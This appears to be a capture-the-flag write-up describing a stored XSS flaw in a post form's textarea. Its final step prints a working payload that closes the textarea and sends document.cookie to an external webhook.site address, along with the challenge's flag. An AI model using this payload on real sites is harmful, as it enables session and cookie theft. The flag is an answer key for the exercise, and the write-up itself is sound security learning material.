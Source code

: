 # Challenge `Go on and censor my posts` writeup

- Vulnerability: XSS
- Where: In the post creation form's content field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. The post creation form contains both an `input` field (the title) and a `content` field. Attempting to add a regular XSS exploit payload has no effect (i.e., no information is leaked).
2. However, enclosing a payload with the `textarea` closure and opening tags allows the execution of an arbitrary script.
3. Just like in the previous challenges, a web server must be set up to intercept requests.
4. Using the previous script has a problem: it redirects the attacker to the web server's page (showing their own cookies) with no opportunity to confirm the post and send it to the admin for their cookies to be shown as well. The alternative involves using an XMLHttpRequest to send the request in the background (`</textarea><script>const xhr = new XMLHttpRequest(); xhr.open("POST", "https://webhook.site/<id>", false);xhr.send(document.cookie)</script><textarea>`), which, once submitted for approval, leads to the retrieval of the admin's cookie/flag (`SSof{I_do_not_get_this__Too_many_weird_characters__Automatic_reject}`).